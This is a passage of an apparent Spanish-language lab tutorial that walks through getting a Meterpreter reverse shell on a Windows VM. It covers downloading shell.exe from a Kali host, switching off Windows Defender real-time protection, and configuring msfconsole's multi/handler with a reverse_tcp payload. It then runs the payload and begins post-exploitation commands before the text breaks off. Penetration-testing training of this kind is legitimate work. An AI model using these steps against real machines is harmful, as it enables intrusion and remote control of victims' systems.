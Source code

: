 Luego, en Windows, abre navegador y accede a:

```
http://192.168.100.2:8080/shell.exe
```

⚠️ **Desactiva Windows Defender** para pruebas educativas.

> Configuración → Seguridad → Protección contra virus → Desactivar tiempo real.

---

### 📡 Paso 3: Preparar Handler en Kali (Metasploit)

Abre `msfconsole`:

```bash
sudo msfconsole
```

Y ejecuta:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.2
set LPORT 4444
run
```

---

### 🖱️ Paso 4: Ejecutar el Payload en Windows

En la VM víctima:

1. Abre `cmd`.
2. Navega hasta donde esté `shell.exe`.
3. Ejecuta:

```cmd
shell.exe
```

✅ En Kali deberías recibir una **sesión Meterpreter activa**.

---

### 🧰 Post-Explotación con Meterpreter en Windows

Una vez tengas la sesión:

---

#### 1️⃣ Información del sistema

```bash
sysinfo
getuid
ipconfig
```
